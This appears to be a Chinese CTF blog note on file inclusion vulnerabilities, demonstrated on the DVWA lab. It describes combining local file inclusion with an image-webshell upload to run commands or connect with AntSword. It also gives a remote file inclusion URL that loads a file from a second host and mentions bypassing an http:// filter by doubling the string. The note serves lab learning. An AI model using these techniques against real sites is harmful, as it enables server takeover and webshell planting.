 ```yaml
---
title: 文件包含漏洞
date: 2024-10-14 14:25:30
tags: CTF
categories: CTF-Web
---
```


**渗透思路**
**有时候当我们发现了一个本地的文件包含漏洞，但我们也仅仅只能去读取一些本地的文件，没有办法去进行更深层次的利用，然后又在这个网站上发现了一个文件上传漏洞，同时这个文件上传漏洞如果单个来看是比较鸡肋的，比如它做了限制，只能发送图片，而这个图片却没有做严格的限制，我们可以通过一些图片木马来绕过上传，而这两个漏洞结合一下的话，就能达到很大效果了 比如我们上传了一个图片木马，没法单独去使用，但我们可以使用文件包含漏洞，去对这个文件进行包含，也就是说两个文件互相结合进行利用**

# 本地文件包含

上传文件到本地之后，通过可以访问资源的页面访问该文件

以DVMA为例

![image-20241009203148225](./././././././././文件包含漏洞/image-20241009203148225.png)



上传图片马后将路径保存，可在文件包含中访问该马，可以进行命令执行或者蚁剑连接

![image-20241009203256567](./././././././././文件包含漏洞/image-20241009203256567.png)

# 远程文件包含

可以将文件放在服务器上，在路径后拼接服务器网址即可访问服务器上的资源

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://192.168.126.129/hack.txt
```

有的会对http://和https://进行过滤，可以使用复写绕过



访问txt文件可以，尝试访问马